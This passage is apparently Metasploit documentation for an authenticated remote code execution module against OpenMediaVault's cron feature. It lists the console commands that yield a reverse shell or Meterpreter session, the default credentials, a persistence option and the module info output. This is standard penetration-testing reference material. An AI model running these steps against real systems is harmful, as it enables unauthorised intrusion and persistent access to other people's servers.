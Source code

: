 You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/unix/webapp/openmediavault_auth_cron_rce`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=Unix Command, 1=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options

### USERNAME
This option is required and is the username (default: admin) to authenticate with the application.

### PASSWORD
This option is required and is the password (default: openmediavault) in plain text to authenticate with the application.

### PERSISTENT
This option keeps the payload persistent in Cron and runs every minute. Warning: This is a noisy option for detection.
The default value is false, where the payload is removed to cover your tracks.

## Scenarios
```msf
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > info

       Name: OpenMediaVault rpc.php Authenticated Cron Remote Code Execution
     Module: exploit/unix/webapp/openmediavault_auth_cron_rce
   Platform: Unix, Linux
       Arch: cmd, x86, x64, armle, aarch64
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-05-08

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Brandon Perry <bperry.volatile@gmail.com>
  Mert BENADAM

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix Command
      1   Linux Dropper

```